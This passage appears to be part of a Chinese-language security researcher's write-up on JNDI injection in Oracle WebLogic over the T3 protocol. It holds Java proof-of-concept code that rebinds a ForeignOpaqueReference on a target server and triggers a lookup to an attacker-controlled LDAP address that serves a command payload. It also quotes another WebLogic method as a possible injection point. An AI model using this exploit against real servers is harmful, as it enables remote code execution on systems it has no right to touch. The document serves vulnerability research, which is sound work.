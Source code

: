 ```java
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
        ForeignOpaqueReference f = new ForeignOpaqueReference(ldap,env2);  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("sectest", f);  
        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```

在我以为自己找到了新方法的时候，才发现漏洞作者已经提到过了，只是没有放 POC

白高兴一场

我还找到这个类：`weblogic.application.naming.MessageDestinationReference`

在这个类的`lookupMessageDestination()`方法中也可以 JNDI：

```java
public Object lookupMessageDestination() throws NamingException {  
        InitialContext ic;  
        if (this.initialContextFactory == null) {  
            ic = new InitialContext();  
        } else {  
            Hashtable<String, String> env = new Hashtable();  
            env.put("java.naming.factory.initial", this.initialContextFactory);  
            if (null != this.providerURL) {  
                env.put("java.naming.provider.url", this.providerURL);  
            }  

            ic = new InitialContext(env);  
        }  

        return ic.lookup(this.jndiName);  
    }
```

整个调用过程如下，但是不知道能不能利用，需要慢慢尝试
